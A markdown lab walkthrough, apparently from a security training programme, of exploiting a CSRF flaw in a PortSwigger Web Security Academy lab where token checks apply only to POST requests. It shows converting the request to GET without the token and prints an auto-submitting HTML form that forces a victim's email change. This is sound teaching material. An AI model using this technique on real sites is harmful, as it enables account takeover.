










📌 Overview

This walkthrough demonstrates the identification and exploitation of a Cross-Site Request Forgery (CSRF) vulnerability where CSRF token validation depends on the HTTP request method using Burp Suite and PortSwigger Web Security Academy.

The application validates CSRF tokens only for `POST` requests while failing to enforce validation on `GET` requests, allowing unauthorized state-changing actions through crafted malicious requests.

---

# 🛠 Tools Used

| Tool                             | Purpose                             |
| -------------------------------- | ----------------------------------- |
| Kali Linux                       | Operating environment               |
| Burp Suite Community Edition     | Request interception & manipulation |
| Firefox                          | Browser interaction                 |
| Burp Repeater                    | HTTP request modification           |
| PortSwigger Web Security Academy | Vulnerable target application       |

---

# 🌐 Step 1 — Access the Lab

Opened the PortSwigger lab:

```text
CSRF where token validation depends on request method
```

✔ Lab initialized successfully

### 📸 Evidence 1 — Initial lab interface



---

# 🔍 Step 2 — Initial Recon

Logged into the application using the provided credentials and navigated to:

```text
My Account
```

An email update operation was performed to capture the related HTTP request.

✔ Email update functionality identified

### 📸 Evidence 2 — My account page



---

# 📡 Step 3 — Capture Original Request

After submitting an email update request, Burp Suite captured the following request:

```http
POST /my-account/change-email HTTP/2
```

The request body contained:

```text
email=test@test.com&csrf=TOKEN
```

This confirmed:

* The application uses CSRF tokens
* Email updates normally require POST requests
* User-controlled parameters are present

✔ Original request successfully captured

### 📸 Evidence 3 — Original POST request captured inside Burp Suite



---

# ✏️ Step 4 — Send Request to Repeater

The captured request was sent to:

```text
Burp Repeater
```

for manual testing and manipulation.

✔ Request transferred successfully

---

# 🔄 Step 5 — Convert POST Request to GET

The original request:

```http
POST /my-account/change-email HTTP/2
```

was modified to:

```http
GET /my-account/change-email?email=hacker@evil.com HTTP/2
```

The following components were removed:

* Request body
* CSRF token
* `Content-Type` header
* `Content-Length` header

This transformation tested whether CSRF validation depended solely on the HTTP method.

✔ Request successfully converted to GET

### 📸 Evidence 5 — Modified GET request inside Repeater



---

# 🧪 Step 6 — Verify CSRF Validation Bypass

The modified GET request was sent through Burp Repeater.

The server processed the request successfully and changed the account email address without validating any CSRF token.

Observed result:

```text
Your email is: hacker@evil.com
```

This confirmed:

* CSRF validation only applies to POST requests
* GET requests bypass security controls
* Unauthorized state-changing actions are possible

✔ CSRF validation bypass confirmed

### 📸 Evidence 6 — Successful email change after GET request



---

# 💣 Step 7 — Craft CSRF Exploit

A malicious HTML exploit was created on the exploit server:

```html
<html>
  <body>
    <form action="https://LAB-ID.web-security-academy.net/my-account/change-email" method="GET">

      <input type="hidden" name="email" value="pwned@web-security-academy.net">

    </form>

    <script>
      document.forms[0].submit();
    </script>

  </body>
</html>
```

The exploit automatically forces the victim browser to submit a forged GET request.

✔ CSRF exploit generated successfully

### 📸 Evidence 7 — Exploit payload hosted on exploit server



---

# 🚀 Step 8 — Deliver Exploit to Victim

The crafted exploit was delivered to the simulated victim through the exploit server.

The victim’s browser automatically executed the forged request, resulting in unauthorized email modification.

✔ Exploit delivered successfully

### 📸 Evidence 8 — Exploit delivery process



---

# 🏁 Step 9 — Lab Solved

PortSwigger confirmed successful exploitation of the vulnerability.

✔ Lab marked as solved

### 📸 Evidence 9 — Lab solved 



---
### 📸 Evidence 9 — Lab solved confirmation


---

# 📌 Conclusion

This walkthrough demonstrated the complete exploitation flow of a CSRF vulnerability where token validation depended entirely on the HTTP request method.

The attack involved:

* Request interception
* CSRF token analysis
* HTTP method manipulation
* GET request abuse
* CSRF exploit generation
* Unauthorized state-changing request execution

---

This work is part of **FuzzRaiders' structured hands-on training and research program**, where every lab, project, and technical study is formally documented, reviewed, and validated to ensure real-world applicability and methodological rigor.

Happy hacking 🚀

---


